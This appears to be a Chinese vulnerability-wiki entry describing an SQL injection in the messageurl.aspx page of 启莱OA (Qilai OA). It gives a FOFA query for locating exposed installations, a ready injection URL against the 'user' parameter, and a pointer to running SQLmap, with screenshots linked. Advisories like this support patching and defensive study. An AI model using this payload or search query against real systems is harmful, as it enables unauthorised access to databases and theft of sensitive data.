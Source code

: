 # 启莱OA messageurl.aspx SQL注入漏洞

## 漏洞描述

启莱OA messageurl.aspx文件存在SQL注入漏洞，攻击者通过漏洞可以获取数据库敏感信息

## 漏洞影响

> [!NOTE]
>
> 启莱OA

## FOFA

> [!NOTE]
>
> app="启莱OA"

## 漏洞复现

登录页面如下

![](http://wikioss.peiqi.tech/vuln/ql-1.png)

存在SQL注入的文件为 messageurl.aspx

```
http://xxx.xxx.xxx.xxx/client/messageurl.aspx?user=' and (select db_name())>0--&pwd=1
```

![](http://wikioss.peiqi.tech/vuln/ql-2.png)

使用SQLmap对参数 user 进行注入

![](http://wikioss.peiqi.tech/vuln/ql-3.png)